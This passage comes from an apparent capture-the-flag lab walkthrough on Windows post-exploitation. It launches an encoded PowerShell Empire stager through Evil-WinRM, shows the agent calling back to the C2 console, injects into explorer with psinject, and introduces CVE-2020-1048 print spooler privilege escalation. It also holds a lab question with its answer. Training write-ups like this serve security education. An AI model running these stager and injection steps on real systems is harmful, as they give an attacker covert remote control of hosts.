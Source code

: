 1.  `**powershell -noP -sta -w 1 -enc XXXXXXXX**`

![](https://cdn-images-1.medium.com/max/800/0*iQ7GSs2tO-WQYbZl.jpg)

_Launching Empire Stager inside of Evil-WinRM_

This should cause the agent to connect back to Empire, showing the following lines in your Empire console:

Empire Console

\[\*\] Sending POWERSHELL stager (stage 1) to 10.10.117.40  
\[\*\] New agent N3ELF241 checked in  
\[+\] Initial agent N3ELF241 from MACHINE\_IP now active (Slack)  
\[\*\] Sending agent (stage 2) to N3ELF241 at MACHINE\_IP

To interact with the agent, you need to run the following commands, replacing the corresponding agent name on the second command:

1.  `agents`
2.  `interact N3ELF241`

**Task 6** : Spawn as a New Process

The session launched from **Evil-WinRM** has limitations with PowerShell. You will need to spawn a new process with Empire to be able to continue with the exercise. **First**, find a new process to migrate to using [**Get-Process**](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-process?view=powershell-7) (aliased as **ps**). Typically you will want to aim for a common process that is stable and won’t be closed by a used (e.g., **explorer**).

1.  `ps`

![](https://cdn-images-1.medium.com/max/800/0*l5Jp2QcFB0ZINfAf.jpg)

_Active process list in Empire_

After you have selected a process, you will execute `psinject <listenername> <processid>` which will launch a new agent that is running locally and not through a remote session.

![](https://cdn-images-1.medium.com/max/800/0*so9kMDPz01-opVpb.jpg)

_Process injection into Explorer_

Remember to interact with the new agent before continuing.

Q: Which process may work with **psinject**?

Answer: explorer

**Task 7** : System Check

![](https://cdn-images-1.medium.com/max/800/0*Yqn5b_gbahMeUcRk.png)

**Hijacked Print Spooler**

Now that we have established a safe foothold, we want to obtain **higher-level privileges**. **CVE-2020–1048** means that unpatched systems prior to **Windows build 2004** are vulnerable to arbitrary write anywhere vulnerability and DLL hijack through printer abuse.
